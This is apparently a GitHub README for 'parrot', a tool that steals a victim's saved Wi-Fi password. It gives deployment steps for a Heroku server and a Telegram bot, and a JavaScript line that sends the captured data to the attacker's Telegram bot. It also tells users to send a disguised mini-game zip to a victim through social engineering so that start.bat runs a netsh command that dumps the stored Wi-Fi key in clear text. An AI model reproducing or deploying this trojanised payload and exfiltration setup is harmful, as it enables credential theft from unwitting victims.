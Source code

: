 # parrot Wi-Fi hacking tool
this is a simple payload that sends the password of a known wifi  to rouge sever.
# requirements
node.js https://nodejs.org/en/download/  
heroku account https://signup.heroku.com/  
heroku cli https://devcenter.heroku.com/articles/heroku-cli#download-and-install  
A telegram bot https://t.me/BotFather
# usage
```shell
git clone https://github.com/ba5liel/parrot.git  
cd parrot  
heroku login  
git push -u heroku 
```
Insert the aproprate params
```js
https.get(`https://api.telegram.org/bot{{Your bot token}}/sendMessage?chat_id={{your telegram id}}&text=${body}`);
```
send the Game-monkey-lander.zip to victim using any social engineering techniques. and make sure the victim opens the start.bat file  
now you can see the password at [yourapp].heroku.com or it's sent to your telegram account through the bot you setted up using @BotFather
# payload
this include a mini game that launches when start.bat is opened.  
you must change the start.bat in the payload    

netsh wlan show profile "victim wifi name here" key=clear > bin\log.txt  

#enjoy
